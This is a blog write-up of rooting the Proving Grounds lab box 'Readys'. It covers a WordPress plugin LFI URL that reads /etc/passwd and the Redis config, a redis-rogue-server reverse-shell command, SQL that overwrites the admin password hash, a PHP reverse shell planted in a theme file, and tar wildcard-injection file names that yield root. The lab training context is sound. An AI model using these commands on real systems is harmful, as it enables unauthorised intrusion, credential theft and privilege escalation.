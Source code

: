 ```yaml
---
layout: writeup
title: Readys - Proving Grounds
date: 2024-07-14 13:32:20 +0300
description: A Writeup of the Readys Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, Redis]
---
```


Here's a writeup for Readys, an Intermediate Proving Grounds box I saw on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Very Hard. I'll keep an eye on that as I have slightly have had boxes that I simply could not finish even when copying and pasting commands from official writeups. Looking at you Postfish. I kick things off with nmapAutomator and check port 80 for a website. Looks like we've got a Wordpress site. 

![Readys1.png](/assets/images/Readys/Readys1.png){: .center-aligned width="600px"}

So I give wpscan a shot and also take notice that we only have three ports open:

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

In particular I notice that the site and the box itself are called Readys, awfully close to redis on port 6379. Could it be a clue? Could it be anything but a clue? I try to access, but it looks like authentication is required. 

![Readys2.png](/assets/images/Readys/Readys2.png){: .center-aligned width="600px"}

I check the results of the wpscan, and see there is a vulnerability for a plugin called `Site Editor 1.1.1`, which has a Local File Inclusion vulnerability on [exploit-db](https://www.exploit-db.com/exploits/44340) with a proof of concept to access the local `/etc/passwd` using this URL: `http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`, and that works. I can see there is a user named `alice`. That could come in handy. 

From here I do some quick research to see if there is a redis file that might have a password and start looking around for it. In this case that file is `/etc/redis/redis.conf`, and by looking for `pass` in the file, I see this string: 
`# requirepass Ready4Redis?`. I check that against `redis-cli`, and it works. 

![Readys3.png](/assets/images/Readys/Readys3.png){: .center-aligned width="600px"}

Thats a pretty good sign. I don't know a lot about redis, so I check [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)for options, and I try creating an ssh key and uploading a php shell, but neither work immediately. I also dump the database using [pyredis-dump.py](https://github.com/muayyad-alsadi/pyredis-dump/blob/master/pyredis-dump.py), but it appears to be empty save evidence of one of the exploits I've already tried. Then I try [RedisRogueServer](https://github.com/n0b0dyCN/redis-rogue-server), and I eventually do that working to set up a reverse shell with: `python3 redis-rogue-server.py --rhost 192.168.229.166 --lhost 192.168.45.183 --lport 9999 --passwd Ready4Redis?` 

![Readys4.png](/assets/images/Readys/Readys4.png){: .center-aligned width="600px"}

And we're off. Side note - I've been using [Penelope Shell Handler](https://github.com/brightio/penelope), and it's been great. Sets up a TTY shell automatically, and you can upload and download from the same window using its built-in menu. Unfortunately it looks like the redis user can't execute any scripts, so we may need to enumerate manually until we can find a different user or simply get another user to execute for us. It's worth noting that mysql is running, but we don't seem to be able to access it either from redis or alice. 

I check for running processes and realize that of course the wordpress server is still running, so I check for config files. In `/var/www/html/wp-config.php` we can see a DB-USER of `karl` and a DB-PASSWORD of `Wordpress1234`. We can use these credentials to log into mysql, check the wordpress database, and `SELECT * FROM wp_users;` which shows us this:

![Readys5.png](/assets/images/Readys/Readys5.png){: .center-aligned width="600px"}

Initially, I think the plan is to crack it, but after a few minutes of staring at hashcat I figure we can just add our own user. So I do some googling, and I try this: 
```INSERT INTO `wordpress`.`wp_users` (`ID`, `user_login`, `user_pass`, `user_nicename`, `user_email`, `user_url`, `user_registered`, `user_activation_key`, `user_status`, `display_name`) VALUES ('2', 'pop', MD5('party1'), 'Your Name', 'test@example.com', 'http://localhost', '2022-09-01 00:00:00', '', '0', 'Your Name');```

This does create the user, but we don't have admin access, so I decide to try simply updating the admin password:

`UPDATE wp_users SET user_pass = '$P$Bji8hVfidufunf4yRQ4/SIEcgON/mL0' WHERE ID =1;`. The hash here is the phppass for `party1`. This does update the table and allow us to sign in!

![Readys6.png](/assets/images/Readys/Readys6.png){: .center-aligned width="600px"}

From there I go to theme editor and edit the 404.php page for the theme in use with Ivan Sincek's reverse PHP shell, and I get a connection. 

![Readys7.png](/assets/images/Readys/Readys7.png){: .center-aligned width="600px"}

And we're alice. Maybe now we can actually check linpeas and lse if we need to. And we see this in lse:

![Readys8.png](/assets/images/Readys/Readys8.png){: .center-aligned width="600px"}

We check out that file, and we see this: 

![Readys9.png](/assets/images/Readys/Readys9.png){: .center-aligned width="600px"}

Looks like we may have a wildcard vulnerability. It looks like it is checking the `/var/www/html` for changes made in the last 3 minutes (-mmin 3), and as long as there is at least one, it creates a backup folder called `/opt/backups/website.tar`. So I create a quick reverse shell and name it shell.sh and, then I check [hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar) which says to use:
1. `touch "--checkpoint=1"`
2. `touch "--checkpoint-action=exec=sh shell.sh"` (with shell.sh being our malicious script)

But it doesn't work, because we get a `touch: unrecognized option '--checkpoint=1'` error. No worries, there's more than one way to skin a cat. We can use echo instead:

1. `echo "" > '--checkpoint=1'`
2. `echo "" > '--checkpoint-action=exec=sh shell.sh'`

And after a minute or so:

![Readys10.png](/assets/images/Readys/Readys10.png){: .center-aligned width="600px"}

We get our root shell!

Lessons learned: There were a lot of steps to this box, but most of them were pretty straightforward. I don't think I had ever done anything with redis before, updated a MySQL table, or used anything but `echo` to exploit a wildcard vulnerability. I also needed to use a wordpress exploit before getting access to the shell from the redis exploit. All in all, I enjoyed this, but it took a while, and it seems way simpler at the end. But I don't think I'd completed a box that the Proving Grounds community rated "Very Hard" without getting a hint, so that's good. 
